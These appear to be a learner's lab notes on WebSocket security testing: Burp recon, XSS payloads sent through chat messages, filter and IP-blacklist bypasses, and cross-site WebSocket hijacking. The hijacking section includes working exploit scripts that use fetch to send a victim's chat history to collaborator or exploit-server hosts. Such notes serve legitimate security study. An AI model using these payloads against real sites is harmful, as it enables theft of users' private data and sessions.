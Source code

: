 ![[WebSockets.jpg]]
# Recon

WebSockets are initiated over HTTP and provide long-lived connections with asynchronous communication bi-directionally. They're used for performing user actions and transmitting sensitive info.

To find WebSocket vulnerabilities, it involves manipulating them in ways the app does not expect by:

- Intercepting and modifying WebSocket messages
- Replay and generate new WebSocket messages
- Manipulate WebSocket connections

Burp Proxy has a WebSockets history tab that includes WebSockets messages. Individual messages can be replayed via Burp Repeater by sending a WebSocket message to Repeater. There are situations where it may be necessary to manipulate the handshake itself such as needing to establish a new connection, or tokens/other data may need updated.

Repeater has a pencil icon that attaches you to an existing connected WebSocket, clone one or reconnect to a disconnected one.

Look for any web security vulnerability that can arise in normal apps such as:

- User-supplied input transmitted to the server processed in unsafe ways (SQLi, XXE)
- Blind vulnerabilities reached via WebSockets may only be detectable using OAST techniques
- If attacker-controlled data is transmitted via WebSockets to other users, it may lead to XSS
# Manipulating WebSocket Messages

Suppose an app uses sockets to send chat messages. When typing a message, a WebSocket message is sent to the server:

```json
{"message":"Hello Carlos"}
```

The contents are transmitted to another chat user via WebSockets and rendered in browser:

```html
<td>Hello Carlos</td>
```

If no other input processing or defenses are in place, a PoC XSS attack can be submitted via the following:

```json
{"message":"<img src=1 onerror='alert(1)'>"}
```

Try to determine if any filtering takes place such as backslash escaping, HTML encoding angle brackets or other forms of encoding. Bypasses may be available. If forward slashes - `/` - are escaped, try using XSS payloads that do not require one such as the img above.
# Manipulating Handshake

These vulnerabilities involve design flaws like:

- Misplaced trust in HTTP headers to perform security decisions - i.e. `X-Forwarded-For`
- Flaws in session handling since the session context is generally determine by the session context of the handshake
- Attack surface introduced by custom HTTP headers

If WebSockets block your IP after sending a malicious alert, attempt to add a match and replace rule for `X-Forwarded-For` and session handling rules along with Request Randomizer to send a random value every request and potentially bypass the blacklist.

Try to analyse what triggers the blacklisting - keywords, special characters, full payloads, etc. Try various different payloads and see what works, including:

```html
<img src=1 oNeRrOr=alert`1`>
```

```html
<img src=0 oNeRrOr=window['ale'+'rt'](window['doc'+'ument']['dom'+'ain'])>
```

Encoding may also be required on the keywords that trigger the alert:

```html
<img src=0 oNeRrOr=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
```

```html
<img src=x OnErRoR=&#97;&#108;&#101;&#114;&#116;(1)>"}
```
# Cross-Site WebSocket Hijacking

Vulnerabilities arise when an attacker makes a cross-domain WebSocket connection from a site that the attacker controls - known as cross-site WebSocket hijacking attack and involves exploiting CSRF on a handshake. 

It arises when the handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. Attackers create a web page on a domain which establishes a cross-site WebSocket connection. The app handles the connection in the context of the victim's user session.

Attacker sends arbitrary messages to the server via the connection and read the contents of messages that are received back from the server - attacker gains two-way interaction with the compromised app.

First, review the handshakes and determine if they are vulnerable. For normal conditions, you need to find a message that relies solely on cookies for session handling and does not use any tokens or unpredictable values such as:

```html
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If vulnerable, then a cross-site request is performed to open a WebSocket and can do things like:

- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user
- Sending WebSocket messages to retrieve sensitive data
- Sometimes, just waiting for incoming messages to arrive containing sensitive data


Try interacting with the bot and refreshing the page. If the chat history persists, it likely uses a session cookie to track the live chats. Check if this session token has the SameSite flag. Attempt to resend the READY message  and check if the chat history returns. 

Also check that the /chat endpoint has no unpredictable token values. Launch an attack:

1. Create an exploit page that contains a payload
2. JS will open the WebSocket, send a READY message, grab the chat history and send it back to us
3. Send link to victim
4. Victim opens connection and session cookie is sent along
5. Chat history sent to web server

As an example, the payload below can be used to retrieve sensitive information from the application that belongs to another user. When we send the "READY" command to the server via the WebSocket message, all the past chat messages will be received. 

When the messages are received from the server, they will be sent to attacker's server. This is possible as cross-site WebSocket hijacking attacks, allows for 2-way interaction, unlike standard CSRF attacks.

Host the following in the exploit server to send a POST request to Collaborator:

```html
<script>
    var ws = new WebSocket('wss://VULNERABLE-WEBSOCKET-URL/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Or the following to send a GET request with base64 encoded data to the exploit server:

```html
<script>
var ws = new WebSocket(
  "wss://0a29006304c9f2fa838619a4002d0016.web-security-academy.net/chat"
);

ws.onopen = function() {
  ws.send("READY");
};

ws.onmessage = function (event) {
  fetch(
    "https://exploit-0a1c004e04fcf26c83b0185d016700dc.exploit-server.net/exploit?message=" +
      btoa(event.data)
  );
};
</script>
```

- Opens a new WebSocket with specified URL
- When opened, run a function that sends the READY message
- Receive back info from the server and use fetch to send request to attacker endpoint

An example exploitation payload - although this does not work in the labs, this is something that can be done to inject XSS through web socket messages to attack other users. The "message" parameter in the lab was used to communicate/send messages to the server through web socket.

```html
<script>
    var ws = new WebSocket('wss://0a97008101b00a8.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("{\"message\":\"<img src=x onerror=alert(1)>\"}");
    };
    ws.onmessage = function(event) {
        fetch('https://a8jc1jg75.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

